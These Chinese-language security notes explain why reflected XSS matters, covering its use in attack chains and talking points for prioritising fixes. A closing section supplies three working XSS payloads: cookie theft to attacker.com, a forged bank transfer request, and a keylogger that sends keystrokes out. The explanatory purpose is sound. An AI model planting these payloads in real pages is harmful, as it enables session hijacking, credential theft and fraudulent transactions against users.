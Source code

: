 

反射型 XSS 可作为漏洞链的跳板


单一漏洞可能危害有限，但反射型 XSS 可与其他漏洞结合形成攻击链，可以通过 XSS 绕过 CSRF 防护（注入恶意代码伪造 POST 请求），可以配合浏览器漏洞（如 CVE 漏洞）实现远程代码执行（RCE），也可以在内部系统中利用 XSS 横向移动（如攻击企业内网应用）。



**回应话术建议**

反射型 XSS 的危害可能不如存储型直接，但它的核心风险在于：

1. 它是用户身份和权限的入口漏洞，攻击者一旦劫持会话，就能以用户身份访问服务器数据；
2. 它依赖社会工程，而社会工程是真实攻击中最高效的手段之一（参考钓鱼攻击成功率超 30% 的统计数据）；
3. 现代 Web 应用中，用户侧的数据（如个人隐私、操作行为）本身也是业务核心资产，反射型 XSS 的防护是合规刚需。
   因此，反射型 XSS 的修复优先级不应低于其他漏洞类型。”



## Q: 写几个高危XSS脚本？

**窃取用户Cookie**

```js
// 反射型/存储型 XSS 示例：将用户 Cookie 发送到攻击者服务器
<script>
  const img = new Image();
  img.src = 'https://attacker.com/steal?cookie=' + encodeURIComponent(document.cookie);
</script>
```



**构造CSRF请求（强制用户执行操作）**

```js
// 反射型 XSS + CSRF 组合攻击：静默发起转账请求
<script>
  fetch('https://bank.com/transfer', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ to: 'attacker_account', amount: 1000 })
  });
</script>
```



**键盘记录器（窃取敏感输入）**

```js
// DOM 型 XSS：记录用户键盘输入并外传
<script>
  document.addEventListener('keypress', (e) => {
    fetch('https://attacker.com/log?key=' + e.key);
  });
</script>
```


